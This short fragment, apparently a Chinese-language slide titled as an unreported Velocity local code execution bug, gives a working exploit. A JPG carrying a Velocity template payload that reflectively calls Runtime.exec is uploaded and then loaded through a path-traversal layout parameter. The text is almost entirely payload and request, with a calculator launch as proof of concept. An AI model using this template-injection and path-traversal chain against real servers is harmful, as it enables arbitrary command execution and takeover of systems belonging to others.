

# velocity本地代码执行（没有报告）
上传JPG
#set ($exec = "kxlzx")
$exec.class.forName("java.lang.Runtime").getRuntime().exec("calc")
showcase/context.vm?layout=../z.gif
55